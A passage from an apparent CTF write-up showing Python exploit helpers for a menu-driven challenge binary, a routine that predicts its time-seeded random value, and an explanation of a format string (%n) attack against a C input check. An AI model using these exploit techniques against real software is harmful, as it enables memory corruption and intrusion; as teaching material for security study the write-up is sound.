```python
    sla("Index : ",str(idx))
    sla("size : ",str(size))
    sa("details -> \n",data)

def view(idx):
    sla(">> ",'2')
    sla("Candidate: ",str(idx))

def hack(idx):
    sla(">> ",'2020')
    sla("Candidate: ",str(idx))

def free(idx):
    sla(">> ",'3')
    sla("Candidate: ",str(idx))

def move_on():
    sla(">> ",'4')

#Mimicing the random function implemented by binary to break it
def get_rand():
    toc = c_long()
    tic = libc.time(byref(toc))
    while True:
        libc.srand(tic/60)
        lower = 0x1000
        upper = 0xffff
        rand_num = libc.rand()%(upper-lower+1) + lower
        delay = libc.rand()%300 + 1
        end_time = tic + delay
        tic = tic + delay
        libc.srand(end_time/30)
        rand_num_2 = libc.rand()%(upper-lower+1) + lower
        region = rand_num & rand_num_2
        if(region>0x1000):
            return region

```

Now that we have calculated the age , we need to somehow overwrite the age pointer with this so that we pass the check.

### Triggering the format string bug

You can think of directly overwriting the age pointer with the afore calculated random number , but the issue is , I had added checks for directly not allowing numbers greater than `0x900` to be present in the input string.

```c
//%n is allowed in format string , but u cant write large numbers (greater than 0x900) with %n
void check_num(char *p)
{
    while (*p) 
    { 
        if ( isdigit(*p)) 
        {
            long val = strtol(p, &p, 10); 
            if(val>0x900)
            {
                puts("Not allowed");
                Exit();
            }
        } 
        else
```